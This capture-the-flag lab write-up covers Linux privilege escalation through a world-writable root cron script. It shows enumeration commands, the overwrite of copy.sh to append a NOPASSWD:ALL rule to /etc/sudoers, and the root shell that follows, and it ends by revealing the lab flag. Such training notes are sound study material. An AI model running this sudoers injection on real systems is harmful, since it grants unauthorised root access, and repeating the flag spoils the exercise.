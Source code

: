 # 🔬Cron Jobs

## Lab 1

>  🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
>  - **Cron Jobs** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
whoami
groups student
cat /etc/passwd
crontab -l
```

> 📌 `student` user has no privileges and no scheduled cron jobs

![](.gitbook/assets/image-20230319190830023.png)

```bash
ls -l
	-rw------- 1 root root 26 Sep 23  2018 message
# "message" file has root permissions
```

### Cron Jobs Identify

- Look for all occurences of the path or the file, on the system

```bash
find / -name message
    /home/student/message
	find: '/var/lib/apt/lists/partial': Permission denied
    [...]
    /tmp/message
```

```bash
grep -rnw /usr -e "/home/student/message"
	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

- The file has been copied into the /tmp directory

```bash
cat /tmp/message
	Hey!! you are not root :(
```

- Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
	
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

### Privesc

- Every user account has read/write/execute permissions on the `copy.sh` script
- The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a*dding **student** to `sudoers` file*).
  - When the script is executed by `root` cron job (*every 1 min for this lab*), it will run commands with pivileged permissions
  - No text editors available in the lab

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

cat /usr/local/share/copy.sh
    #!/bin/bash
    echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```bash
sudo -l

    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

![sudo -l](.gitbook/assets/image-20230319192443704.png)

```bash
sudo su
whoami
	root
cd /root
cat flag
```

```bash
crontab -l
	*/01 * * * * sh /usr/local/share/copy.sh *
```



<details>
<summary>Reveal Flag: 🚩</summary>



`697914df7a07bb9b718c8ed258150164`

![](.gitbook/assets/image-20230319192539065.png)

</details>

------

